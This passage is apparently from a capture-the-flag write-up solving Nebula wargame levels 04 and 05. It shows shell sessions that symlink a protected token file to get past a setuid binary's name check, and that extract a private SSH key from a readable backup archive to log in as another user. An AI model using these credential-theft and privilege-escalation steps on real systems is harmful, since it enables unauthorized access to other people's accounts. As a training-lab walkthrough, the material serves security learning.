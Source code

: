 From the snippet we can see that a check is in place for the first argument to see if the string `token` exists in it. As the token we want to read is actually called *token* this check will obviously prevent us from reading it. As we also don’t have write access to the file we cant rename it either. We can however make a symlink to it with a different name, thereby circumventing this check.

So, to solve level04:

```bash
level04@nebula:/home/flag04$ ln -s /home/flag04/token /var/tmp/flag04
level04@nebula:/home/flag04$ ./flag04 /var/tmp/flag04
06508b5e-8909-4f38-b630-fdb148a848a2

level04@nebula:/home/flag04$ su - flag04
Password:
flag04@nebula:~$ getflag
You have successfully executed getflag on a target account
```

## level05

[Level05's Description](https://exploit-exercises.com/nebula/level05/):

> Check the flag05 home directory. You are looking for weak directory permissions

Browsing to the `flag05` directory we can see a `.backup` directory containing a tar archive that is readable. This archive contained a private key that allowed login as the `flag05` user.

So, to solve level05:

```bash
level05@nebula:~$ cd ~flag05
level05@nebula:/home/flag05$ ls -lah
total 5.0K
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
drwxr-xr-x 1 root   root     220 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3.3K 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh

level05@nebula:/home/flag05$ cd .backup/
level05@nebula:/home/flag05/.backup$ ls -lah
total 2.0K
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
-rw-rw-r-- 1 flag05 flag05  1.8K 2011-11-20 20:13 backup-19072011.tgz

level05@nebula:/home/flag05/.backup$ tar -xvf backup-19072011.tgz -C /var/tmp/
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys

level05@nebula:/home/flag05/.backup$ ssh -i /var/tmp/.ssh/id_rsa flag05@127.0.0.1
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '127.0.0.1' (ECDSA) to the list of known hosts.

[...]

flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```
